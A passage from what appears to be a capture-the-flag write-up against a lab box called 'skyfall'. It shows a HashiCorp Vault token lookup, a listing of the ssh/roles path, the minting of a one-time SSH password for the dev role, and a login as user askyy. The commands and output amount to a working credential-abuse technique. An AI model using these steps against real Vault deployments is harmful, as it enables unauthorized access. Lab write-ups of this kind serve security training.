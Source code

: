 ```console

Key                  Value
---                  -----
token                hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
token_accessor       rByv1coOBC9ITZpzqbDtTUm8
token_duration       431958h30m18s
token_renewable      true
token_policies       ["default" "developers"]
identity_policies    []
policies             ["default" "developers"]
```

Guessing SSH access - typicaly SSH credentials are placed on `ssh/roles` path in Vault, let's try querying:

```console
root@kali:~# vault token capabilities ssh/roles
list

root@kali:~# vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

2 methods found for logging in:

1. Generating SSH OTP then logging in:

```console
root@kali:~# vault write ssh/creds/dev_otp_key_role ip=10.10.11.254 username=askyy
Key                Value
---                -----
lease_id           ssh/creds/dev_otp_key_role/ohYg5PjGRJeL5mC3ZLZTJCwj
lease_duration     768h
lease_renewable    false
ip                 10.10.11.254
key                32532fe5-132c-a69a-da61-3d51bdb00301
key_type           otp
port               22
username           askyy
root@kali:~# ssh askyy@10.10.11.254
Warning: Permanently added '10.10.11.254' (ED25519) to the list of known hosts.
(askyy@10.10.11.254) Password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jul 18 14:29:20 2024 from 10.10.14.76
askyy@skyfall:~$ id
uid=1000(askyy) gid=1000(askyy) groups=1000(askyy)
```
